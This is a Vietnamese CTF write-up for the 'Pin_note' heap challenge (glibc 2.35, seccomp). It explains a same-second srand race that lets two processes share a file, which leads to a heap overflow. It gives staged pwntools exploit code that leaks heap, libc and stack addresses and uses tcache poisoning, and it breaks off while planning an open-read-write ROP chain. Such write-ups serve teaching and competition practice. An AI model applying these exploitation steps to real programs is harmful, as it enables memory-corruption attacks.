# Pin_note



Đề bài cho ta một file binary bật full security + 1 file libc version `2.35`. Đầu tiên chúng ta hãy đi vào phân tích binary.

## Overview



- Vì chương trình này không có tên các hàm nên trong lúc đọc thì mình đổi tên một số tên hàm cho dễ nhìn

- Ta thấy ở hàm `main`, chương trình sẽ cho ta lựa chọn 1 trong 3. Muốn chọn `2` thì ta cần phải set password trước:



- Vì các hàm của lựa chọn `1` không quan trọng lắm nên mình bỏ qua phân tích code. Chương trình sẽ cho chúng ta đặt mật khẩu. Từ đó ta có thể chọn số `2`

- Ta sẽ phân tích từng hàm trong lựa chọn này

### Create_file()



Đầu tiên, trong hàm này để ý hàm `snprintf()`, nó print theo format và lưu giá trị output vào biến `file`:



Vì các `string` trong lúc tĩnh đều bị `encrypt` hết nên mình debug để nhìn cho nhanh. Ta thấy, file có format đường dẫn là `/tmp/pin_xxxxxxxx`, bây giờ quay ngược lại hàm `sub_3E00()` mà cũng có `s` là tham số:



- Chương trình sẽ lấy `password` của mình nhập vào rồi thực hiện các phép tính với số ngẫu nhiên.

- Như ta đã biết thì khi cùng `srand()` thì các seed gen ra trong cùng 1 giây sẽ giống nhau

- Vì vậy sẽ ra sao nếu ta chạy 2 process rồi cùng chọn lựa chọn số 2 cùng 1 lúc ?



- Boom, cả 2 process đều dùng chung 1 file

- Okay quay lại hàm `create_file()`. sau khi mở file thành công, chương trình sẽ cắt để kích thước size chỉ là 0x60 (tương đương với 12 note)

- Sau đó sẽ được `mmap` vào `*(ptr+13)`. Sau đó set tất cả về 0

**Tổng kết lại:** Hàm này có 1 bug race codition cho phép ta chia sẻ file giữa 2 process

### Note_interact()



- Hàm này cho ta 6 lựa chọn, trong đó có 4 lựa chọn đầu là để tương tác với heap

ta sẽ phân tích từng hàm một

#### add_note()



- `add_note()` cho ta nhập kích thước, sau đó nó sẽ malloc chunk theo size đó. Cuối cùng, phần đáng chú ý ở đây là nó sẽ lưu kích thước vào file

#### edit()



- Hàm này nó sẽ cho chúng ta nhập kích thước mới , và thay đổi kích thước trước đó đã ghi trong file. Nếu mà kích thước mới ta nhập vào mà `<= oldsize` thì chương trình mới cho phép ta đọc. Vậy ở đây có một lỗi, đó là `oldsize` chương trình đọc từ file. Mà ta có thể thay đổi size của idx đó với process khác. Từ đó ta có bug `Heap Overflow`

### show()
 


Hàm này sẽ chỉ print size, và print `%s` content của chúng ta. Vậy nên nếu muốn leak, ta buộc phải nối `str`

### del()



- Hàm del này, chương trình sẽ kiểm tra pointer trỏ đến note đó đồng thời kiểm tra kích thước của note đó. Vậy nên nếu ta sử dụng 2 process, thì ta sẽ chỉ free được note từ 1 process. Bởi sau đó, chương trình sẽ thay đổi `note_size` trong file về 0.

## Exploit

- Vậy kết luận lại sau khi đọc source bên trên, ta có bug `race condition` cho phép ta chia sẻ dữ liệu giữa 2 process. Từ đó khi khai báo size ở process chính nhỏ rồi sau đó điều chỉnh size của note đó bằng process khác. Từ đó ta có bug `heap overflow` thông qua hàm edit kiểm tra size thông qua `old_note_size`.

- Vậy bây giờ target của ta là gì?



- Ta thấy seccomp đã chặn các hàm `execve` nên `one_gadget`,`system('/bin/sh')` sẽ không hoạt động. Vậy nên chúng ta sẽ tìm cách để `open read write` file flag

- Tiếp đến, vì phiên bản libc là `2.35` vì vậy chúng ta không thể sử dụng cách overwrite các `hook`. Vậy còn một cách duy nhất đó là overwrite `ret_addr`. Để làm vậy chúng ta phải leak được `libc`, `stack`, `heap`. Rồi từ đó sử dụng kĩ thuật `Tcache poisioning` để tạo chunk đến `ret_addr` và overwrite các gadget giúp ta đọc được flag

### STAGE 1: Leak heap

- Tại sao ta phải leak heap?

- Bởi ở `glibc 2.34+` thì `freed chunk` được đưa vào `tcache bin` sẽ được mã hóa như sau: `encrypt = next_chunk_in_list_addr ^ present_chunk_addr >> 12`

- Vậy nên để thực hiện kĩ thuật `Tcache poisioning` chúng ta phải biết được địa chỉ của `heap`

- Vậy nên bước đầu tiên là chúng ta sẽ free đúng 1 chunk vào list của `tcache bin`, mục đích để `next_chunk_in_list_addr = 0`. Lúc này `encrypt =  present_chunk_addr >> 12`. Nên khi ta leak được `encrypt`, ta có thể mò ra được `heap_base`



Ta thấy, nếu ta leak được `0x555555562` và `<<12` thì ta sẽ biết được `heap base address`

``` python
add_note(1,0x10)
add_note(1,0x20)

add_note(0,0x500)
sleep(1)
del_note(1,1)
edit_note(1,0,b'a'*0x20)
show_note(1,0)
p.recvuntil(b'a'*0x20)
heap_base = u64(p.recv(5)+b'\0\0\0')<<12
info("heap base: "+hex(heap_base))
payload = b'a'*0x18
payload += p64(0x31)
edit_note(1,0,payload)

```

Mình đã thay đổi `size_note` của `note 0` bằng process khác trước khi process chính edit `note 0`. Từ đó ta có thể `heap_overflow` và leak được. Sau cùng, mình sửa lại phần metadata để tránh gây lỗi sau này

### STAGE 2: Leak libc

- Kĩ thuật tương tự như trên. Nhưng để xuất hiện địa chỉ libc, ta cần free chunk kích thước lớn để chương trình đưa chunk đó vào `Unsorted bin`. Từ đó ta leak được libc

```python
add_note(1,0x30) #idx1
add_note(1,0x500) 
add_note(1,0x30)

add_note(0,0x500) #idx1
del_note(1,2)

edit_note(1,1,b'a'*0x40)

show_note(1,1)
p.recvuntil(b'a'*0x40)
libc_leak = u64(p.recv(6)+b'\0\0')
info("libc_leak: "+hex(libc_leak))
libc.address = libc_leak - 0x21ace0
info("libc_base: "+ hex(libc.address))
environ_addr = libc.sym['environ']
info("environ: "+hex(environ_addr))

payload = b'a'*0x38
payload += p64(0x511)
edit_note(1,1,payload)
```

### STAGE 3: Leak stack

- Trường `environ` trên libc chứa địa chỉ stack, vì vậy ta có thể đọc giá trị của trường này và leak được địa chỉ stack. Tuy nhiên để leak được giá trị tại địa chỉ ngoài heap. Ta phải sử dụng kĩ thuật `Tcache poisioning` để có thể tạo chunk ở `environ`:

 Như vậy ta đã thành công thay đổi địa chỉ và chương trình nhận diện tại đúng địa chỉ `environ`. Từ đó ta leak được stack thôi:

```python

### STAGE 3: LEAK_STACK
add_note(1,0x500) #idx2
add_note(1,0x30)  #idx4

add_note(0,0x600) #idx2

del_note(1,4)
del_note(1,3)

payload = b'a'*0x500
payload += p64(0x510)
payload += p64(0x41)
payload += p64(environ_addr ^ (heap_base+0x8c0)>>12)
GDB()
edit_note(1,2,payload)

add_note(1,0x30)  #idx3
add_note(1,0x30)  #idx4 (environ)

show_note(1,4)
p.recvuntil(b"Content: ")
stack_leak = u64(p.recv(6)+b'\0\0')
info("stack leak: "+hex(stack_leak))
rbp_addr = stack_leak - 0x1b8
info("rbp_addr: "+ hex(rbp_addr))

```
Khi leak được stack, ta có thể dễ dàng tính được địa chỉ của `rbp_addr`

### STAGE 4: Overwrite return address

Khi ta đã có đủ các địa chỉ, ta có thể overwrite `ret_addr` để chương trình thực hiện `open read write` file flag

Tuy nhiên có một điều khó khăn trong khi tìm gadget trong libc. Đó là gadget `syscall` Khi tìm gadget qua `ROPgadget`, ta sẽ không tìm được `syscall nào có ret đằng sau:

